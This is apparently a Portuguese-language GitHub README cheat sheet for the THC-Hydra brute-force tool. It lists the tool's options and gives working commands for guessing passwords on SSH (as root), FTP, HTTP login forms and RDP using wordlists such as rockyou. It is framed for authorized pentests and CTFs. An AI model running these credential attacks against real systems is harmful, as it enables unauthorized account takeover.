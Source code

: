# Hydra 🐉

## 📌 O que é o Hydra?
- O **THC-Hydra** é uma ferramenta rápida e poderosa para ataques de força bruta em serviços de rede.
- Suporta diversos protocolos: **SSH, FTP, HTTP, SMB, Telnet, RDP, VNC**, entre outros.
- Muito utilizado em **testes de penetração** para identificar credenciais fracas.

---

## ⚙️ Sintaxe básica
hydra [opções] <alvo> <serviço>

Exemplo:
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.0.10 ssh

---

## 🔑 Principais opções
- `-l <usuário>` → define um único usuário
- `-L <arquivo>` → lista de usuários
- `-p <senha>` → define uma única senha
- `-P <arquivo>` → lista de senhas (wordlist)
- `-s <porta>` → especifica porta (caso não seja a padrão)
- `-t <n>` → número de threads (paralelismo)
- `-V` → modo verboso (mostra cada tentativa)
- `-f` → para ao encontrar a primeira credencial válida
- `-o <arquivo>` → salva resultados

---

## 🚀 Exemplos práticos

### 1. SSH brute force
hydra -l root -P rockyou.txt 192.168.0.10 ssh  
➡️ Tenta autenticar no SSH do alvo com usuário **root**.

---

### 2. FTP com lista de usuários e senhas
hydra -L users.txt -P passwords.txt ftp://192.168.0.15

---

### 3. HTTP POST form (login web)
hydra -l admin -P rockyou.txt 192.168.0.20 http-post-form "/login:username=^USER^&password=^PASS^:F=Login Failed"

- `^USER^` → substituído pelo usuário  
- `^PASS^` → substituído pela senha  
- `F=Login Failed` → mensagem que identifica falha no login

---

### 4. RDP (Remote Desktop Protocol)
hydra -t 4 -V -f -L users.txt -P pass.txt rdp://192.168.0.30

---

## ⚠️ Boas práticas e observações
- Use **somente em ambientes autorizados** (lab, CTF, pentest autorizado).  
- Combine com wordlists realistas (ex.: **rockyou.txt**, **seclists**).  
- Ajuste as **threads (-t)** para não causar negação de serviço.  
- Se possível, use junto com outras ferramentas para reconhecimento (ex.: **Nmap**, **BurpSuite**).  
